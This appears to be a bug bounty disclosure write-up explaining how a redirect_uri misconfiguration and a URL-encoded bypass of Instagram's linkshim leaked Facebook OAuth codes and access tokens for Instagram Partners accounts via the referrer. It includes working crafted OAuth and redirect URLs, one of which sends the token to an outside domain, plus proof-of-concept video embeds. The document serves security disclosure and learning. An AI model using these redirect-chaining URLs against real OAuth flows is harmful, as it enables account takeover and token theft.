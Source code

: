 >Getting access token of instagram partner's account through referrer leakage using linkshim

This issue allowed me to take over the insta partners account code and access_token.

Instagram partners uses facebook for authentication. The redirect_uri for the fb oauth is `instagrampartners.com`. But a small
misconfiguration in redirect_uri helped me to take over the access_token.

Partners was allowing `instagram.com` as a domain for redirection and even subdomains `*.instagram.com`. There is no option for me 
except linkshim or oauth to bypass. linkshim clears the referrer and remaining headers before redirecting.

Redirection bypass contained url encoded elements which helped parameters from facebook to escape the linkshim of instagram. Using 
url encoding helped linkshim url with access token to leak through referrer.

Example consider this linkshim instagram url:

http://l.instagram.com/?e=ATOXOxtB9yyG_wGoXgyErxBx3KAgobQMKybv-L8O_PEdXI0Z4rqoawet2349Lw&u=http://google.com/

Linkshim bypass url :

http://l.instagram.com/?e%3DATOXOxtB9yyG_wGoXgyErxBx3KAgobQMKybv-L8O_PEdXI0Z4rqoawet2349Lw%26u%3Dhttp://google.com

Oauth bypass url : 
https://www.facebook.com/v2.2/dialog/oauth?client_id=1672090479675902&redirect_uri=http%3A%2F%2Fl.instagram.com%2F%3Fe%3DATNqsDRx0x7ZVfVF282iVvW4zr6QOhmME_M35bNw6rHrt6L30ajQ2t-YStDi6g%26u%3Dhttp%3A%2F%2Fgoogle.com%2F&scope=public_profile%2Cemail&response_type=code


Proof of concept : 

<iframe src="https://drive.google.com/file/d/0BycKB4yADa3bZk4zMU9TdUFQMzg/preview" width="640" height="480"></iframe>


Code it self can't do any thing without `client_secret` and same redirect url (instagrampartners.com) for explict authentication from server side.
Linkshim was not allowing url fragments. When `response_type` is set to `token`, It returns in the from of fragment. So anything
after `#` is negelected by linkshim. I used oauth to bypass the restrictions by linkshim.

Oauth bypass url using oauth :

https://www.facebook.com/v2.2/dialog/oauth?client_id=1672090479675902&scope=public_profile%2Cemail&response_type=token&redirect_uri=https%3A%2F%2Fwww.instagram.com%2Foauth%2Fauthorize%2F%3Fclient_id%3D{REDACTED}%26response_type%3Dcode%26redirect_uri%3Dhttp%3A%2F%2Fmunchinng.com%2F%26state%3D

Proof of concept :

<iframe src="https://drive.google.com/file/d/0BycKB4yADa3bZTJEdmtIc1lMUDA/preview" width="640" height="480"></iframe>


